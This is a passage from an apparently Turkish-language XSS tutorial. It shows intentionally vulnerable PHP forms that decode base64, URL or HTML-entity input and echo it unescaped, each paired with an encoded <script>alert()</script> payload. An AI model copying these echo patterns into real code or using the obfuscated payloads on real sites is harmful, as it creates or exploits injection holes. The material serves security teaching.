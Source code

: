 ```
Jmx0O3NjcmlwdCZndDthbGVydCZscGFyOyZycGFyOyZsdDsmc29sO3NjcmlwdCZndDs=
```

**Nasıl Çalışır:** base64_decode ve html_entity_decode fonksiyonları, base64 ve HTML encoded veriyi sırasıyla decode eder. Payload, önce base64 decode edilir, ardından HTML entity'leri decode edilir ve JavaScript kodunu tetikler.

**Zaafiyet:** Bu yöntem, hem base64 hem de HTML encoding kullanarak veri gizlemeyi amaçlar, ancak doğru decode edilirse XSS saldırısına açık olabilir.

### Base64 & URL Encoding

```php
<form action="" method="GET">
  <input type="text" name="inputB64URL" required />
  <button type="submit">Base64 & URL Encode</button>
</form>

if (isset($params['inputB64URL'])) {
  $b64urldecoded = urldecode(base64_decode($params['inputB64URL']));
  echo "<p style='display: none;'>" . $b64urldecoded . "</p>";
}
```

**Base64 & URL Encoded Payload**

```
JTNDc2NyaXB0JTNFYWxlcnQoKSUzQy9zY3JpcHQlM0U=
```

**Nasıl Çalışır:** base64_decode ve urldecode fonksiyonları, base64 ve URL encoded veriyi sırasıyla decode eder. Payload, önce base64 decode edilir, ardından URL decode edilir ve JavaScript kodunu tetikler.

**Zaafiyet:** URL encoding ve base64 encoding kombinasyonu, XSS payload'larının gizlenmesine yardımcı olabilir, ancak doğru decode edilirse XSS saldırısı gerçekleştirebilir.

### HTML & URL Encoding

```php
<form action="" method="GET">
  <input type="text" name="inputHTML4URL" required />
  <button type="submit">HTML & URL Encode</button>
</form>

if (isset($params['inputHTML4URL'])) {
  $htmlurldecoded = urldecode(html_entity_decode($params['inputHTML4URL'], ENT_QUOTES | ENT_HTML5));
  echo "<p style='display: none;'>" . $htmlurldecoded . "</p>";
}
```

**HTML & URL Encoded Payload**

```html
&percnt;3Cscript&percnt;3Ealert&lpar;&rpar;&percnt;3C&sol;script&percnt;3E
```
